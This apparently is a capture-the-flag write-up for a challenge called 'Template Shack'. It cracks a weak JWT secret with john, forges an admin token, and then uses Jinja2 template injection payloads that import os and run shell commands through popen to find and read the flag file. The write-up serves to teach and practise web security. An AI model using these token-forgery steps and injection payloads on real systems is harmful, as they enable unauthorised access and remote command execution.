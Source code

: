 ## Write up Template Shack

On the website we got a session-token and token that seems to be a jwt:
to get the secret we have to bruteforce the jwt, using john:

``echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0In0.9SvIFMTsXt2gYNRF9I0ZhRhLQViY-MN7VaUutz9NA9Y" > jwt.hash``
To crack it:
``john jwt.hash -w=/usr/share/wordlists/rockyou.txt``
we get the secret as ``supersecret``
![b4120f50ec01db439c6b1a0b2e17f8f3.png](_resources/c7897f309d1b41bca6694b0c50fe6bb6.png)

Decoding it:
![677ce90eb3b8a89b93597677284bfdb0.png](_resources/edef173f1f924dd4bf4b9be989e5d2b4.png)



No we have to create a new token and sign it using the jwt_tool:

![e569e3c4d816e07a1b772e43a10ec4dd.png](_resources/27c86bb8667e43888b85f2fe27a54223.png)

Using this tool we can change guest for admin and sign it with the key:

![67ab31baeab4bf5345583493879465ab.png](_resources/0d09dd7005ed411fa6e80dab4dec1292.png)

now we have a jwt token with "admin" ``eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.Ykqid4LTnSPZtoFb11H+/2q+Vo32g4mLpkEcajK0H7I``
changing the token with this value gives us access to de admin panel:

![1b97e21508f7ed17c791a153c436aacb.png](_resources/cf524efaf471459a914df674074bf974.png)

I noticed that inside the admin template when a webpage doesnt exists it renders de endpoint on the 404, for example if I look for /admin/abt.html I got:

![d26a25bb83b73a84cb913901c4a06eaa.png](_resources/ee4ef6fa2e3149428fcd900e2f90cb41.png)

This added to the name of the challenge made me think about template injection and bingo:

![0ada9bdc9cc0f7636be6951b93d8ee7f.png](_resources/bc7b222a05394a07b2d0e41d87e9f0f7.png)

So there is probably python running on the backgroung as this is a feature of flask jinja so let's find it out with ``{{ [].__class__.__base__.__subclasses__() }}``:

![1a41206868d5c17e10b3a8cf7044e622.png](_resources/f164d7016bf643edaba7377899c1188b.png)

So now we just need to use the os library to read the flag:
``{{ request.application.__globals__.__builtins__}}}`` we can access the builtins so we will try to import the os with ``{ request.application.__globals__.__builtins__.__import__('os')}}``

![9ea482a3850c3e64e933167c48b47b7f.png](_resources/d3ff18b2a9f648c9a3e9e75fb19e4543.png)

Its time to find the flag.txt ``{{ request.application.__globals__.__builtins__.__import__('os').popen('find / -name flag.txt').read()}}``

![c1c780927a45638edfbabb212872c8e8.png](_resources/d7e17b2be5c141bc8fcee36137c945e4.png)

and finally cat the flag ``{{ request.application.__globals__.__builtins__.__import__('os').popen('cat /home/user/flag.txt').read()}}``

![9c8b0fc698ca5267541f7672ddb4da4c.png](_resources/133eb074a30742abafd3d3486a1bd323.png)

And that was all!
